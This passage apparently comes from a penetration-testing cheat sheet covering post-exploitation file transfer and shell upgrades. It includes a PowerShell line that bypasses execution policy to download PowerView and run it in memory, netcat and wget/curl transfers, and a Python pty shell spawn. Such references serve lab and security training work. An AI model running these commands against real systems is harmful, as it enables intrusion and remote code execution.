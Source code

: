 ##### Executing code in memory 
```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

### Windows to linux

Create a python server and get it from the linux machine:

On windows:
```sh
python -m SimpleHTTPServer 80
```
On linux:
```sh
wget http://<windows-machine-ip>/<file-name>
```
#### Netcat

In command prompt:
```powershell
C:\tools\practical_tools\nc.exe -nvlp 4455 > C:\Users\offset\Desktop\binary.exe
```

In linux machine:

```sh
nc -w <windows_ip_here> 4455 < binary.exe
```

### Linux to linux

#### Wget

```sh
wget 192.168.1.102:9999/file.txt
```

#### Curl

```sh
curl -O http://192.168.0.101/file.txt
```
## Interactive shells

### Semi-interactive
Getting a semi-interactive shells is simple:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Fully interactive shell

First, run the semi-interactive shell python command, then background the current shell process, run `stty raw -echo` in the terminal which will pass keyboard shortcuts through, then run `fg` to bring netcat back.
